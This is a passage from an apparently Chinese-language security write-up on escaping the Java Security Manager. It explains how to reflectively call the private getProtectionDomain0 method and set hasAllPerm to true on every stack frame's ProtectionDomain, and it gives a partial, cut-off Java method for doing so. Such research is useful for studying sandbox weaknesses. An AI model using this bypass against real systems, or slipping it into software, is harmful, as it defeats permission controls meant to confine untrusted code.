 - 在这个类中看到了一个hasAllPerm，根据注释可以看得出来，这个属性是标记这个类是否有所有权限的布尔变量

- > 但是问题在于AccessController会沿着栈自顶向下检查，必须所有栈帧都有权限才能通过。
  >
  > 这里我们也遍历所有栈帧，将所有栈帧中的所有类的ProtectionDomain中的hasAllPerm置为true。

  ![image-20231108192111666](images/18.png)

- 但是却报错我没有getProtectionDomain权限，来就来看看代码运行时调用的getProtectionDomain方法

  ![image-20231108193135739](images/19.png)

- 在getProtectionDomain方法中，先进行权限检查，通过后调用了getProtectionDomain0方法，最后返回的内容也就是getProtectionDomain0的结果，那就直接在代码中调用getProtectionDomain0吧

- 于是修改代码

  ```java
  public static void setHasAllPerm() throws Exception{
      StackTraceElement[] stackTraceElements = Thread.currentThread().getStackTrace();
      for (StackTraceElement stackTraceElement: stackTraceElements){
          Class clz = Class.forName(stackTraceElement.getClassName());
          // 反射调用getProtectionDomain0方法
          Method method = clz.getClass().getDeclaredMethod("getProtectionDomain0", null);
          method.setAccessible(true);
          java.security.ProtectionDomain pd = (ProtectionDomain) method.invoke(clz);
  
          if (pd != null){
              Field field = pd.getClass().getDeclaredField("hasAllPerm");
              field.setAccessible(true);
  ```